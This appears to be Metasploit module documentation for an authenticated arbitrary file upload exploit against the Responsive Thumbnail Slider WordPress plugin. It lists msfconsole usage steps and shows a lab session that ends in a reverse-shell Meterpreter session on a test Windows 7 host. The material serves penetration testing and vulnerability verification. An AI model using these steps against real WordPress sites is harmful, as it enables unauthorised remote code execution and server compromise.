 
## Vulnerable Application

  This module exploits an arbitrary file upload vulnerability in Responsive Thumbnail Slider Plugin
  v1.0 for WordPress post authentication.

  For testing purposes, you may download a vulnerable version [here](https://www.exploit-db.com/apps/f5d34e16d07e61ad6826d2c1f3d16089-wp-responsive-thumbnail-slider.zip).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/wp_responsive_thumbnail_slider_upload```
  4. Do: ```set RHOSTS [IP]```
  5. Do: ```set TARGETURI [URI]```
  6. Do: ```set USERNAME [USERNAME]```
  7. Do: ```set PASSWORD [PASS]```
  8. Do: ```run```
  9. You should get a shell.

## Scenarios

### Test on Windows 7 x86 running WordPress v4.9.7

  ```
  msf > use exploit/multi/http/wp_responsive_thumbnail_slider_upload 
  msf exploit(multi/http/wp_responsive_thumbnail_slider_upload) > set rhosts 192.168.37.165
  rhosts => 192.168.37.165
  msf exploit(multi/http/wp_responsive_thumbnail_slider_upload) > set targeturi wordpress
  targeturi => wordpress
  msf exploit(multi/http/wp_responsive_thumbnail_slider_upload) > set username test
  username => test
  msf exploit(multi/http/wp_responsive_thumbnail_slider_upload) > set password password
  password => password
  msf exploit(multi/http/wp_responsive_thumbnail_slider_upload) > check
  [*] 192.168.37.165:80 The target service is running, but could not be validated.
  msf exploit(multi/http/wp_responsive_thumbnail_slider_upload) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] WordPress accessed
  [+] Logged into WordPress
  [+] Successful upload
  [*] Sending stage (37775 bytes) to 192.168.37.165
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.165:54322) at 2018-07-26 14:41:02 -0500

  meterpreter > getuid
  Server username: lab (0)
  meterpreter > sysinfo
  Computer    : WIN7-LAB
  OS          : Windows NT WIN7-LAB 6.1 build 7601 (Windows 7 Ultimate Edition Service Pack 1) i586
  Meterpreter : php/windows
  meterpreter >

  ```
